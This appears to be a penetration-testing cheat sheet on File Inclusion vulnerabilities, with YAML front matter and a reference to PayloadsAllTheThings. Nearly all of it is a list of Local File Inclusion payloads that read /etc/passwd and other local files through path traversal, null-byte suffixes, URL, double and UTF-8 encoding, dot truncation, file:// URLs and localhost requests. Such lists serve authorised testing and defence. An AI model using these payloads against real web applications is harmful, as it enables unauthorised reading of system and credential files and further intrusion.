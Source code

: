 ```yaml
---
title: File Inclusion (LFI/RFI)
description: Local File Inclusion (LFI) and Remote File Inclusion (RFI) are vulnerabilities that are often found to affect web applications that rely on a scripting run time.
tags:
    - Web
refs:
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
date: 2023-08-26
draft: false
---
```


## Local File Inclusion (LFI)

```sh
?page=../
?page=/etc/passwd
?page=../../../../etc/passwd
?page=../../../../../etc/passwd
?page=..//..//..//..//..//etc/passwd
?page=....//....//....//....//etc/passwd
?page=....//....//....//....//....//....//etc/passwd
?page=.....///.....///.....///.....///etc/passwd
?page=../../../../../../../../../../../../../../etc/passwd
?page=..\/..\/..\/..\/etc/passwd
?page=/etc/passwd&
?page=/etc/passwd%00
?page=/etc/passwd%00.inc
?page=/etc/passwd%00.php
?page=http://localhost/index
?page=somedir/../../../../etc/passwd&ext=

# URL encoding
?page=..%2F..%2F..%2F..%2Fetc/passwd
?page=..%5C..%5C..%5C..%5Cetc/passwd
?page=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
?page=http:%5C%5Cindex

# URL double encoding
?page=..%252F..%252F..%252F..%252fetc/passwd
?page=%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
?page=http:%252F%252Findex

# UTF-8 encoding
?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd

# Dot truncation
?page=../../../../etc/passwd..........................................................

# File scheme
?page=file:///etc/passwd
?page=file:%2F%2F%2Fetc%2Fpasswd
?page=file:%252F%252F%252Fetc%252Fpasswd
?page=file%3A///etc/passwd
?page=file%3A%2F%2F%2Fetc%2Fpasswd
?page=file%3A%252F%252F%252Fetc%252Fpasswd
?page=file://var/www/html/index.php
?page=file://var/www/<subdomain>/index.php

# Other local web servr
?page=http://127.0.0.1/
```
